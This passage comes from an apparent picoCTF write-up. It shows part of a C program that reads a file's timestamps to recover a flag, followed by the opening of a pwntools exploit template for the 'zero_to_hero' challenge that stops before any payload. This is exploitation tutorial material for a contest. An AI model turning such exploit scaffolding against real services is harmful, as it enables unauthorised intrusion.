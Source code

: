```c

    if (hFile == INVALID_HANDLE_VALUE) {
        printf("CreateFile failed\n");
        return -1;
    }

    if (!GetFileTime(hFile, &creationTime, &lastAccessTime, &lastWriteTime)) {
        printf("GetFileTime failed\n");
        CloseHandle(hFile);
        return -1;
    }
        CloseHandle(hFile);

    ch[0] = (lastWriteTime.dwLowDateTime & 0xff00) >> 8;
    ch[1] = lastWriteTime.dwLowDateTime & 0xff;
    printf("%c%c", ch[0], ch[1]);

    return 0;
}
```
3. Run it to get your flag

### Useful Stuffs
1. https://tsalvia.hatenablog.com/entry/2019/10/12/053834#B1g_Mac---Points-500

## zero_to_hero
![](https://i.imgur.com/lXjAK96.png)

### Hints
1. Make sure to both files are in the same directory as the executable, and set LD_PRELOAD to the path of libc.so.6

### Solution by steps
1. `wget` all the files and dray the binary one to Ghidra
2. `vim solve.py` (Runit and get the flag)
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 2019shell1.picoctf.com --port 49928 zero_to_hero
from pwn import *
import time
import re

# Set up pwntools for the correct architecture
# ELF tutorial: https://github.com/Gallopsled/pwntools-tutorial/blob/master/elf.md
exe = context.binary = ELF('zero_to_hero')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'jupiter.challenges.picoctf.org'
port = int(args.PORT or 29476)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```